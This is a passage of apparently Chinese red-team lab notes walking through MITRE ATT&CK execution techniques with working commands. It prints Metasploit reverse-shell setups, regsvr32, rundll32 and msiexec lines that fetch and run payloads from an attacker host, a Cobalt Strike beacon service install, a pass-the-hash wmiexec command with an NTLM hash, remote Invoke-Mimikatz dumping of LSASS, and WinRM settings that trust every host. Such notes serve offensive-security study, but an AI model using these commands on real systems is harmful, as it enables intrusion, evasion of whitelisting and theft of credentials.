

执行之后会反弹shell



## REGSVR32-T1117

Regsvr32.exe是一个命令行程序，用于在Windows系统上注册和取消注册对象链接和嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。主要也是躲避检测，windows正常使用regsvr32.exe可能会触发检测系统的误报。

使用MSF的server/regsvr32_command_delivery_server模块能够通过regsvr32执行命令

```
se auxiliary/server/regsvr32_command_delivery_server
set CMD net user testreg testreg /add
exploit
```



直接执行：

```
regsvr32 /s /n /u /i:http://192.168.144.176:8080/rdIbhY scrobj.dll
```



这里是直接照着Micropoor的文章里执行的创建用户的命令，在MSF中使用有回显的命令时发现会报错，实际可以直接执行反弹shell的dll文件。

### 直接反弹shell

MSF：

```
use exploit/multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.144.176
set srvhost 192.168.144.176
exploit
```



目标主机执行：

```
regsvr32 /s /n /u /i:http://192.168.144.176:8080/ZdmFgyl2Hz.sct scrobj.dll
```

但是执行之后发现都出现了错误，猜测是64位的原因？：



## Rundll32-T1085

### 简介：

rundll32.exe程序可以用来执行任意二进制文件。攻击者可以利用此功能来代理代码的执行，以避免触发可能无法监视rundll32.exe进程执行的安全工具，因为Windows使用rundll32.exe进行正常操作时出现白名单或误报。

几种执行方式：

```
本地：
rundll32 shell32.dll,Control_RunDLL C:\test.dll
通过UNC路径调用：
rundll32.exe \\192.168.1.107\ZtmW\test.dll,0
通过js调用：
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();GetObject("script:http://192.168.1.4/Rundll32_shellcode")

```

### 使用MSF反弹shell

msf:

```
use exploit/windows/smb/smb_delivery
set srvhost 192.168.144.176
exploit
```



目标主机执行：

```
rundll32.exe \\192.168.144.176\XzuN\test.dll,0
```

## （未完成）Scheduled Task-T1053

即通过计划任务进行执行指定文件，不过感觉这种方式一般可能会用来运行后门文件

## Scripting-T1064

脚本？同样是概念的一个点，提到了powershell和VB等等很多其他的脚本。

## Service Execution-T1035

在windows中可以把程序注册成为一个服务来执行，可以通过创建新服务或者是修改现有服务来完成。

如果是创建一个新的服务，则需要使用sc.exe（Service Control）进行创建。

```
sc.exe create testsca binpath= c:\users\Administrator\Desktop\a.exe
```



创建之后可以看到已经新建了名称为testsca的



可以看到已经创建的服务，但是服务起起来会出现问题，看到网上说的原因是被注册为服务的exe文件需要有特定的格式，但是因为不是很熟悉Windows下的API编程，所以这里用C#进行了尝试。具体的使用VS2017生成一个服务exe的文件可以参考链接：

https://www.jb51.net/article/124723.htm

https://docs.microsoft.com/zh-cn/dotnet/framework/windows-services/walkthrough-creating-a-windows-service-application-in-the-component-designer

代码内容：

```C#
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Diagnostics;
using System.Linq;
using System.ServiceProcess;

namespace WindowsService1
{
    public partial class TestAttckService : ServiceBase
    {
        public TestAttckService()
        {
            InitializeComponent();
        }

        protected override void OnStart(string[] args)
        {
            ProcessStartInfo test_calc = new ProcessStartInfo("calc.exe");
            Process calc = new Process();
            calc.StartInfo = test_calc;
            calc.Start();
        }

        protected override void OnStop()
        {
            ProcessStartInfo test_calc = new ProcessStartInfo("calc.exe");
            Process calc = new Process();
            calc.StartInfo = test_calc;
            calc.Start();
        }
    }
}
```

直接执行可以看到错误



也就是说是需要InstallUtil.exe文件来进行安装服务（和上文中的区别是这个是用于安装服务的）

```
c:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe E:\3_C\C#\WindowsService1\WindowsService1\bin\Debug\WindowsService1.exe
```



这里提示安装成功，之后可以在服务中看到对应的服务，不过在使用ProcessStartInfo创建新进程的时候发现并不能成功，执行命令也不能成功。



随后将OnStart方法的代码改成了上文中网站中提供的代码（打印日志的代码）：

```
protected override void OnStart(string[] args) 
{
	using (System.IO.StreamWriter sw = new System.IO.StreamWriter("C:\\log.txt", true)) 
	{
		sw.WriteLine(DateTime.Now.ToString("yyyy-MM-dd HH:mm:ss ") + "Start.");
	}
}
```

之后发现能够成功在C盘中输出log.txt。没有执行命令成功的原因就没有再跟。

### 使用CS创建新服务

在已经创建的Beacon中上传exe文件，并创建服务

```
cd \\win2012\c$
upload c:\users\xxm\desktop\artfact.exe
run sc create "beaconPen" binpath= "cmd /c start "C:\artifact.exe""&&sc config "beaconPen" start= auto&&net start  beaconPn
```

## Signed Binary Proxy Execution-T1218

使用可信数字证书签名的二进制文件可以在受数字签名验证保护的Windows系统上执行。攻击者可能会滥用此行为来执行可能绕过系统上的应用程序白名单和签名验证的恶意文件。

### msiexec.exe

msiexec.exe默认位置在C:\Windows\System32\和C:\Windows\SysWOW64\。Msiexec.exe是Windows Installer的命令行Windows实用程序。攻击者可能会使用msiexec.exe启动恶意MSI文件以执行代码。攻击者可以使用它来启动本地或网络可访问的MSI文件。Msiexec.exe也可用于执行DLL。

Msfvenom生成反弹shell的txt文件。



使用msiexec.exe执行

```
msiexec.exe /q /i testMsiexec.txt
```

执行之后反弹shell成功



能够反弹shell但是立马就会断。还有就是使用msi格式的也可以反弹shell，同时都没有被当前使用的杀毒软件查杀，但是dll类型的是被查杀了。

同样可以执行远程文件：

```
python -m SimpleHTTPServer 80
msiexec /q /i http://192.168.1.109/1.msi
```

### mavinject.exe

Mavinject.exe是一个允许代码执行的Windows实用程序。Mavinject可用于将DLL注入到正在运行的进程中。

命令为：

```
"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" <PID> /INJECTRUNNING <PATH DLL>
C:\Windows\system32\mavinject.exe <PID> /INJECTRUNNING <PATH DLL>
```

官方的下载地址没有找到，下面两个链接可以参考，不过建议在虚拟机执行：

https://www.pconlife.com/viewfileinfo/mavinject-exe/

https://www.winpcware.com/extension/exe/mavinject-exe

### SyncAppvPublishingServer.exe

SyncAppvPublishingServer.exe可以在执行powershell.exe的情况下执行powershell脚本。可以用于绕过APPLocker的限制。

### Odbcconf.exe

Odbcconf.exe是一个Windows实用程序，允许您配置开放式数据库连接（ODBC）驱动程序和数据源名称。该实用程序可能被滥用来执行与Regsvr32等效的功能，并使用REGSVR选项来执行DLL。

示例命令：

```
odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}
```

## Signed Script Proxy Execution-T1216

使用受信任证书签名的脚本可用于代理恶意文件的执行。此行为可能会绕过签名验证限制和不考虑使用这些脚本的应用程序白名单解决方案。

PubPrn.vbs由Microsoft签名，可用于代理远程站点的执行。主要作用是将打印机发布到AD域服务。

默认路径为：

```
C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs
C:\Windows\SysWOW64\Printing_Admin_Scripts\zh-CN\pubprn.vbs
```

官方给的例子，可以通过这个脚本把\\\\Server1上的所有打印机发布到MyDomain.company.Com域中

```
cscript Ppubprn Server1 "LDAP://CN=MyContainer,DC=MyDomain,DC=company,DC=Com"
```

用于执行命令：

```
cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```


Sct脚本内容：

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

## Source-T1153

MACOS

## Space after Filename-T1151

MACOS

## Third-party Software-T1072

原文说的是第三方软件，所以理解为是一种思路吧。

## Trap-T1154

Trap是Linux下的命令，个人认为原文说的更适用于权限维持中，所以请至权限维持一章看细节。

## Trusted Developer Utilities-T1127

这个说的是在一些开发者工具中包含的一些exe文件，能够用于执行任意系统命令。比如：

```
MSBuild.exe
DNX.exe
rcsi.exe
WinDbg.exe
cdb.exe
tracker.exe
```

选一个MSBuild.exe主要说明一下，首先MSBuild.exe可以通过执行C#文件内容来执行shellcode生成XML或者csproj格式的文件方式多种多样，可以直接通过Empire生成：



然后直接将生成到/tmp/目录下的launcher.xml文件放到windows下使用MSBuild.exe执行即可。但是只有.NET 4.0以上的版本才可以执行成功。



## Windows Management Instrumentation-T1047

Windows Management Instrumentation（WMI）是一种Windows管理功能，可为Windows系统组件的本地和远程访问提供统一的环境。它依赖于本地和远程访问的WMI服务以及远程访问的服务器消息块（SMB）和远程过程调用服务（RPCS）。RPCS通过135端口运行。

 

可以直接通过wmic命令来使用wmi功能（wmi不能执行命令，但是可以创建进程执行文件）：

```
wmic /node:192.168.144.177 /user:administrator /password:admin123!@# process call create calc.exe
```



这时能够看到进程，但是并没有弹出，说明已经执行了命令



也可以通过一些工具来执行代码，比如winexec.exe：

```
wmiexec.exe -hashes 00000000000000000000000000000000:8f909fdb472d0b85cddb3e36669a9b07 administrator@192.168.144.177 "whoami"
```

这里是通过HASH值进行执行的命令，实际上这就是一次Pass The Hash的攻击技术，通过NTLM协议验证，然后进行远程访问执行命令。



## Windows Remote Management-T1028

WINRM是WS-Management协议的Microsoft实现，该协议的目的是为跨多种类型的设备（包括固件）和操作系统的管理操作提供一致性和互操作性。WS-Management协议的当前实现基于以下标准规范：HTTPS，HTTP上的SOAP（WS-I配置文件），SOAP 1.2，WS-Addressing，WS-Transfer，WS-Enumeration和WS-Eventing。

在拥有本地管理员权限以及目的的权限的情况下可以通过WINRM的WSMAN进行执行命令。

```
Invoke-Command -ComputerName exchange2012 -ScriptBlock {ipconfig}
```



```
Invoke-Command -ComputerName exchange2012 -ScriptBlock {whoami}
```



通过抓包可以看到走的是HTTP协议，命令以及执行结果的传输全部进行了加密


同时mimikatz还支持使用WINRM进行远程获取LSASS中存储的hash值

```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName exchange2012
```


同时也可以用于持久化，将原本没有开启WINRM的主机使用下列命令开启，即可通过WINRM服务远程连接此主机。

```
Enable-PSRemoting –Force
```


在一些情况下可能无法通过WinRM连接，就是需要一些其他的配置。

```
winrm quickconfig
winrm set winrm/config/Client @{AllowUnencrypted = "true"}
Set-Item WSMan:localhost\client\trustedhosts -value *
```

